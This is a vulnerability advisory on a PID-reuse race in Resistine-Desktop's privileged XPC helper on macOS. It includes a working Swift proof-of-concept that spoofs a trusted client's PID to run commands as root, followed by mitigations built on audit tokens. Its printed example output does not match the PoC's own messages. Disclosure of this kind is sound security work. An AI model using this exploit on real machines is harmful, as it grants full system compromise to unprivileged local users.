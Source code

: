# Local Privilege Escalation via XPC Race Condition

## Description

A local privilege escalation vulnerability exists in the privileged helper of Resistine-Desktop.
The helper attempts to authenticate XPC clients by checking their PID (connection.processIdentifier) and retrieving code signing information based on that PID.
This approach is insecure because PIDs are recycled on macOS. An attacker can exploit a race condition between the PID check and process reuse to impersonate the legitimate client and gain access to privileged XPC methods.


## Technical Details

The [helper](https://github.com/Resistine/Resistine-Desktop/blob/db78f7a2e0af0137db8f7455a9f7c25f9d38397a/apple_helper/main.swift) implements `listener:shouldAcceptNewConnection:` and calls a custom function such as:

```swift
private func isValidClient(connection: NSXPCConnection) -> Bool {
    return CodesignCheck.codeSigningMatches(pid: connection.processIdentifier)
}
```

This approach is insecure because macOS reuses process IDs. When a legitimate client connects and exits, its PID may be reassigned to a new, unrelated process. If the helper performs its code signature verification after the original process has exited, it may unknowingly inspect the code signature of the newly spawned process instead. This opens a race window in which a local attacker can launch a malicious process that inherits the PID of a trusted client and bypass the helper's authentication.

Although the XPC system maintains a secure auditToken tied to the original client process, this helper ignores it entirely. As a result, the authentication is based on mutable process state instead of immutable cryptographic identity. An attacker who wins the race can invoke any of the exported privileged methods including root command execution. 

## Proof-of-Concept

```swift
// Exploit PoC for XPC Race Condition (PID reuse attack)
// Target: Helper authenticates using connection.processIdentifier (PID)
// Goal: Gain access to privileged methods by PID spoofing

import Foundation
import Darwin

let targetService = "com.resistine.helper"
let trustedAppPath = "/Applications/Resistine.app" // location of the app

// MARK: - Launch trusted client and capture its PID
func launchTrustedClient() -> pid_t? {
    let process = Process()
    process.executableURL = URL(fileURLWithPath: "\(trustedAppPath)/Contents/MacOS/Resistine")
    do {
        try process.run()
        print("[+] Launched trusted client with PID \(process.processIdentifier)")
        return process.processIdentifier
    } catch {
        print("[-] Failed to launch trusted client: \(error)")
        return nil
    }
}

// MARK: - Wait for PID to be freed
func waitForProcessToExit(pid: pid_t) {
    print("[*] Waiting for PID \(pid) to exit...")
    while kill(pid, 0) == 0 {
        usleep(100_000) // 100ms
    }
    print("[+] PID \(pid) is now free for reuse")
}

// MARK: - Spray processes to get same PID
func sprayUntilPidMatches(targetPid: pid_t, maxAttempts: Int = 5000) -> pid_t? {
    for _ in 0..<maxAttempts {
        let pid = fork()
        if pid == 0 {
            // Child process
            if getpid() == targetPid {
                print("[+] Reused PID \(targetPid)! Launching XPC connection...")
                runXPCExploit()
            }
            exit(0)
        } else if pid > 0 {
            waitpid(pid, nil, 0) // Reap child
        }
    }
    print("[-] Failed to reclaim PID \(targetPid) after \(maxAttempts) attempts")
    return nil
}

// MARK: - XPC Connection Attempt
@objc protocol HelperToolProtocol {
    func runCommand(command: String, withReply reply: @escaping (String) -> Void)
}

func runXPCExploit() {
    let conn = NSXPCConnection(machServiceName: targetService, options: .privileged)
    conn.remoteObjectInterface = NSXPCInterface(with: HelperToolProtocol.self)

    conn.resume()
    let proxy = conn.remoteObjectProxyWithErrorHandler { error in
        print("[-] XPC error: \(error)")
        exit(1)
    } as? HelperToolProtocol

    proxy?.runCommand(command: "id") { output in
        print("[+] Exploit succeeded, output: \n\(output)")
        exit(0)
    }
    RunLoop.main.run()
}

// MARK: - Main Flow
if let victimPid = launchTrustedClient() {
    sleep(2) // Give it time to connect to helper
    kill(victimPid, SIGKILL)
    waitForProcessToExit(pid: victimPid)
    sprayUntilPidMatches(targetPid: victimPid)
} else {
    print("[-] Could not start trusted client")
    exit(1)
}
```

example output:

```sh
[*] Connected to helper — attempting privilege escalation…
[+] Output from helper:
uid=0(root) gid=0(wheel) groups=0(wheel),...
```

## Impact

Any local unprivileged user may escalate privileges to root by exploiting the race condition in PID-based client validation.
Because the helper exports sensitive methods such as arbitrary shell execution, successful exploitation leads to full system compromise.

## Mitigation

- Do not rely on PID validation,
- use the audit token provided by NSXPCConnection.withAuditToken, which is cryptographically tied to the origin of the connection and cannot be forged or reused by another process,
- verify the connecting client’s code signing identity and team identifier via SecCodeCopySigningInformation using the audit token, not the PID,
- limit exposed methods to the minimum set required, and avoid arbitrary shell execution.

### References

- https://theevilbit.github.io/posts/secure_coding_xpc_part5/
- https://saelo.github.io/presentations/warcon18_dont_trust_the_pid.pdf
